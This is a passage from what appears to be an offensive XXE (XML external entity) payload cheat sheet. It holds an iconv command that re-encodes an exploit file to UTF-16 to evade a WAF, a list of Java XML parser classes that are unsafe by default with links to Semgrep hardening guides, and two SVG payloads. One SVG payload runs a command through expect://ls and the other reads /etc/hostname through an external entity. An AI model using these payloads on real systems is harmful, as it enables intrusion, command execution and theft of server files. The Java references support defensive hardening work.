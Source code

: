**Example**: We can convert the payload to `UTF-16` using [iconv](https://man7.org/linux/man-pages/man1/iconv.1.html) to bypass some WAF:

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
```

## XXE in Java

Unsecure configuration in 10 different Java classes from three XML processing interfaces (DOM, SAX, StAX) that can lead to XXE:

![XXE Java security features overview infographics](https://semgrep.dev/docs/assets/images/cheat-sheets-xxe-java-infographics-1d1d5016802e3ab8f0886b62b8c81f21.png)

- [DocumentBuilderFactory (javax.xml.parsers.DocumentBuilderFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3a-documentbuilderfactory)
- [SAXBuilder (org.jdom2.input.SAXBuilder)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3b-saxbuilder)
- [SAXParserFactory (javax.xml.parsers.SAXParserFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3c-saxparserfactory)
- [SAXParser (javax.xml.parsers.SAXParser )](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3d-saxparser)
- [SAXReader (org.dom4j.io.SAXReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3e-saxreader)
- [TransformerFactory (javax.xml.transform.TransformerFactory) & SAXTransformerFactory (javax.xml.transform.sax.SAXTransformerFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3f-transformerfactory--saxtransformerfactory)
- [SchemaFactory (javax.xml.validation.SchemaFactory)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3g-schemafactory)
- [Validator (javax.xml.validation.Validator)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3h-validator)
- [XMLReader (org.xml.sax.XMLReader)](https://semgrep.dev/docs/cheat-sheets/java-xxe/#3i-xmlreader)

Ref.

- [Semgrep - XML Security in Java](https://semgrep.dev/blog/2022/xml-security-in-java)
- [Semgrep - XML External entity prevention for Java](https://semgrep.dev/docs/cheat-sheets/java-xxe/)

## XXE in exotic files

### XXE inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

**Classic**

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
